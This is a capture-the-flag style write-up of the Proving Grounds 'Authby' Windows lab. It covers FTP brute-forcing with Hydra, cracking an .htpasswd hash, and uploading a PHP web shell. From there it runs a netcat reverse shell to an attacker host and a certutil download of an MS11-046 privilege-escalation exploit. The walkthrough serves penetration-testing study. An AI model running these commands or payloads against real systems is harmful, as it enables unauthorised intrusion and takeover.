





# Authby - Proving Grounds Practice

> **Kill Chain Summary**: Nmap identifies FTP (Port 21) and Web Server on non-standard Port 242 -> Hydra brute-force discovers default FTP credentials (admin:admin) -> Downloading web root configuration files (.htpasswd) -> Hashcat cracks Apache MD5 hash (offsec:elite) -> Web authentication on port 242 -> Uploading PHP web shell and nc.exe via FTP directly into web root -> Shell as apache -> Exploiting AFD.sys kernel vulnerability (MS11-046) -> SYSTEM Shell.

| Property | Value |
|---|---|
| **Target Name** | Authby |
| **Platform** | Proving Grounds Practice |
| **OS** | Windows Server 2008 (Build 6.0.6001) |
| **Difficulty** | Medium |
| **Status** | Rooted |
| **Key Techniques** | FTP Credential Brute-Force (zFTPServer), .htpasswd Extraction and Apache MD5 Cracking, Cross-Protocol File Upload RCE, AFD.sys Kernel Privilege Escalation (MS11-046 / CVE-2011-1249) |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning (Nmap)

We initiate reconnaissance with a full TCP port scan:

```bash
sudo nmap -p- --min-rate 1000 -T4 -Pn $IP -oA nmap/allports
```

**Open Ports Summary:**
```text
PORT     STATE SERVICE
21/tcp   open  ftp
242/tcp  open  direct
3145/tcp open  csi-lfap
3389/tcp open  ms-wbt-server
```

### 1.2 Service Enumeration

#### Port 21 (zFTPServer)
Connecting to port 21 displays the banner:
```text
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
```
Anonymous login attempts initially failed.

#### Port 242 (HTTP Web Server)
Navigating to `http://$IP:242/` in a web browser prompts for HTTP Basic Authentication:



---

## 2. Initial Access

### 2.1 FTP Credential Brute-Force (Hydra)

We compile a small list of prospective service accounts (`admin`, `anonymous`, `offsec`) and run Hydra against the FTP daemon using `fasttrack.txt`:

```bash
hydra -t 4 -L user.txt -P /usr/share/wordlists/fasttrack.txt -u -vV $IP ftp
```

**Recovered Credentials:**
```text
[21][ftp] host: 192.168.x.x   login: admin       password: admin
[21][ftp] host: 192.168.x.x   login: anonymous   password: Spring2017
```

---

### 2.2 Recovering and Cracking `.htpasswd`

Connecting via FTP with `admin:admin`:

```ftp
ftp $IP
Name: admin
Password: admin
ftp> ls
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
ftp> mget *
```

Inspecting `.htpasswd`:

```text
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

The hash uses Apache MD5 crypt (`$apr1$`). We crack it using Hashcat mode 1600:

```bash
hashcat -m 1600 -a 0 hash_htpasswd.txt /usr/share/wordlists/rockyou.txt
```

```text
$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0:elite
```

Recovered credentials: `offsec:elite`

---

### 2.3 Cross-Protocol File Upload RCE

Authenticating with `offsec:elite` against `http://$IP:242/` displays a blank PHP page:



Because the FTP `admin` session has write permissions inside the Apache web root (`C:\wamp\www`), files uploaded over FTP are immediately accessible through the web browser.

#### Verification
Upload a test file via FTP:
```ftp
ftp> put test.txt
```

Navigate to `http://$IP:242/test.txt`:



The file is served successfully.

#### Delivering Web Shell and Netcat
1. Upload a PHP execution web shell (`cmd.php`):
   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. Confirm command execution via HTTP:
   

3. Upload `nc.exe` via FTP to the web root.

4. Start a Netcat listener on Kali:
   ```bash
   sudo nc -lvnp 4444
   ```

5. Trigger `nc.exe` through the web shell:
   ```text
   http://192.168.x.x:242/cmd.php?cmd=nc.exe -e cmd.exe KALI_IP 4444
   ```



Connection received:
```cmd
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation. All rights reserved.

C:\wamp\www> whoami
livda\apache
```

Checking user flag:
```cmd
type C:\Users\apache\Desktop\local.txt
[FLAG REDACTED]
```

---

## 3. Privilege Escalation

### 3.1 Token and OS Enumeration

Checking privileges for the `apache` account:

```cmd
whoami /priv
```

```text
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

Although `SeImpersonatePrivilege` is enabled, modern Potato exploits (GodPotato, SigmaPotato) fail on this legacy host due to missing COM/DCOM interfaces on Windows Server 2008 SP1 (Kernel 6.0.6001).

---

### 3.2 Exploiting MS11-046 (AFD.sys Kernel Privilege Escalation)

Enumerating the operating system build:

```cmd
systeminfo
# OS Name: Microsoft Windows Server 2008 Standard
# OS Version: 6.0.6001 Service Pack 1 Build 6001
```

Windows Server 2008 SP1 is vulnerable to a known kernel-level elevation of privilege flaw in the Ancillary Function Driver (`afd.sys`), tracked under **MS11-046 / CVE-2011-1249** (EDB-ID 40564).

#### Compilation with MinGW
Cross-compiling the exploit source code on Kali using 32-bit MinGW:

```bash
i686-w64-mingw32-gcc ms11-046.c -o exploit.exe -m32 -lntdll -lws2_32
```

#### Transfer and Execution
1. Transfer `exploit.exe` to `C:\Windows\Temp\` via FTP or certutil:
   ```cmd
   certutil -urlcache -f http://KALI_IP/exploit.exe C:\Windows\Temp\exploit.exe
   ```

2. Run the compiled exploit:
   ```cmd
   cd C:\Windows\Temp
   .\exploit.exe
   ```

**Execution Output:**
```cmd
c:\Windows\System32> whoami
nt authority\system
```

Checking root flag:
```cmd
type C:\Users\Administrator\Desktop\proof.txt
[FLAG REDACTED]
```

---

## 4. Useful Commands Summary

```bash
# Brute-force FTP credentials with Hydra
hydra -t 4 -L users.txt -P passwords.txt $IP ftp

# Crack Apache MD5 .htpasswd hashes
hashcat -m 1600 -a 0 htpasswd.txt /usr/share/wordlists/rockyou.txt

# Cross-compile MS11-046 AFD.sys exploit
i686-w64-mingw32-gcc ms11-046.c -o exploit.exe -m32 -lntdll -lws2_32
```

---

## 5. Key Takeaways and Lessons Learned

1. **FTP Root as Web Root:** Always check if FTP directories map directly to HTTP document roots. When an authenticated FTP session provides write permissions inside the web folder, file upload RCE is straightforward.
2. **Hash Identification:** The `$apr1$` prefix in `.htpasswd` indicates Apache MD5 hashing, cracked with Hashcat mode 1600.
3. **Potato Compatibility on Legacy Windows:** Modern Potato exploits (SigmaPotato, GodPotato) rely on specific RPC/DCOM mechanics introduced in later Windows releases. On Windows Server 2008 and earlier, legacy kernel exploits like MS11-046 (CVE-2011-1249) or MS15-051 are often the appropriate escalation paths.

---

### Tags
#windows #ftp #htpasswd #hashcat #file-upload #rce #ms11-046 #cve-2011-1249 #kernel-exploit #medium #pg-practice #rooted